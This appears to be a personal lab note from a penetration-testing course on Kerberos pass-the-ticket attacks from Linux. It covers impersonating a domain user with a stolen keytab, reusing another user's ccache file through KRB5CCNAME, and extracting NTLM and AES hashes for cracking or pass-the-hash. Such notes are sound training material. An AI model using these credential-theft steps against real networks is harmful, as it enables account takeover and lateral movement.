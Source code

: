 The ticket corresponds to the user Carlos. We can now impersonate the user with `kinit`. Let's confirm which ticket we are using with `klist` and then import Carlos's ticket into our session with `kinit`.
![[Pasted image 20250626091234.png]]
We can attempt to access the shared folder `\\dc01\carlos` to confirm our access.
```shell-session
$ smbclient //dc01/carlos -k -c ls
```

### Perserving current session while using others
To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable `KRB5CCNAME`.

# Adding keytab to session
add keytab to klist
```shell-session
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
```

### extracting hashes from keytab

extract hashes from keytab for cracking:
```shell-session
$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```
With the NTLM hash, we can perform a Pass the Hash attack. With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.


The most straightforward hash to crack is the NTLM hash. We can use tools like [Hashcat](https://hashcat.net/) or [John the Ripper](https://www.openwall.com/john/) to crack it. However, a quick way to decrypt passwords is with online repositories such as [https://crackstation.net/](https://crackstation.net/), which contains billions of passwords.

### Obtaining more hashes

redo enumeration process
```
carlos$ sudo -l
```
```shell-session
~# ls -la /tmp
```
#### Identifying group membership with the id command

```shell-session
uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb)
```

using ccache files
```shell-session
oot@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
```
copy ccache file and add to env
```
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```
confirm  ccache is added
```
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB
```
